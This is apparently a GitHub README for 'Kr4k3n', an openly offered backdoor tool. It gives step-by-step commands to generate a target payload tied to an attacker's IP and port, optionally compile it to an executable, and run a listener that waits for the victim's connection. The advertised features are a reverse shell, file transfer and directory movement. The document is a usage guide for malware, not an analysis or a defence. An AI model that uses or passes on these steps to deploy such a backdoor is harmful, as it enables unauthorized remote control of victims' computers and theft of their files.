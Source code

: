 # Kr4k3n Backdoor Tool
 Backdoor with main functions.

## How it works
```
1) Run Generate.py and generate target file with IP and PORT. Example | python2 Generate.py 127.0.0.1 8888
2) Run kr4k3n.py and wait until target connection. Example | python2 kr4k3n.py 127.0.0.1 8888
3) Use kraken-help command to see functions. 
```
[![IMAGE ALT TEXT HERE](https://img.youtube.com/vi/YOUTUBE_VIDEO_ID_HERE/0.jpg)](https://www.youtube.com/watch?v=YOUTUBE_VIDEO_ID_HERE)

## Features
- Reverse Shell
- File Transfer
- Directory Movement

## Installation:
One line installation:
```
$ git clone git@github.com:YanOScompany/kr4k3n && cd kr4k3n && chmod 755 install.sh && ./install.sh
```

Simple and quick installation:
```
$ git clone git@github.com:YanOScompany/kr4k3n
$ cd kr4k3n
$ chmod 755 install.sh && ./install.sh
```

## Usage:

Example usage:
```
[![Video Tutorial](https://www.youtube.com/watch?v=b4WSImA3avQ)

1. Generate file | python2 Generate.py 127.0.0.1 8888 or to compile to exe add --compile (make sure that you have install pyinstaller)
2. Start kr4k3n and wait until your target connection. Example | python2 kr4k3n.py 127.0.0.1 8888
3. Use commands. Example | ls, ifconfig or kraken-get, kraken-push (for see all commands type kraken-help)
```
##My Instagram: @k4sh1r1nkut0 

